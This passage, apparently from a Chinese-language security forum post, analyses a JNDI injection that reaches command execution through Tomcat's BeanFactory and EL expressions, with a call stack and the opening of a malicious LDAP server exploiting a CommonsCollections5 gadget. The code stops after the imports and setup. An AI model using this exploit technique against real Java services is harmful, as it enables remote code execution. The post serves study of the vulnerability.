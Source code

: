 效果图如下所示  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-4e6cfe21d46f63eb9e89d0fe9a3ed926361380f4.png)

调试跟踪分析流程

前面的流程跟RMI和LDAP是一样的，跟到RegistryContext.decodeObject()方法，工厂就是指定的org.apache.naming.factory.BeanFactory，  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-cac6c9cb6c6d8a6b3b82655e3ac0009196a59d6a.png)

接下来的流程也一样，走到getObjectFactoryFromReference方法，接着就是loadClass本地加载对应的类，clas不是null，就说明本地加载到了，

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-036c295985b55eda169cf1d1af999f3ceb937624.png)

最后在getObjectInstance方法中反射的调用invoke执行EL表达式，完成命令执行。  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-baee8ebf077d87fa8984096ab08252566819a212.png)

调用栈

```php
getObjectInstance:211, BeanFactory (org.apache.naming.factory)
getObjectInstance:321, NamingManager (javax.naming.spi)
decodeObject:499, RegistryContext (com.sun.jndi.rmi.registry)
lookup:138, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
main:9, JNDIClient (org.example)
```

触发本地存在的Gadget
-------------

加入本地依赖中存在漏洞，可以尝试出发本地漏洞，这里存在CC依赖，CommonsCollections5来尝试

```php
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;

public class JNDIServer {

        private static final String LDAP_BASE = "dc=example,dc=com";
        public static void main ( String[] tmp_args ) throws Exception{
            String[] args=new String[]{"http://x.x.x.x/#aaa"};
            int port = 6666;
```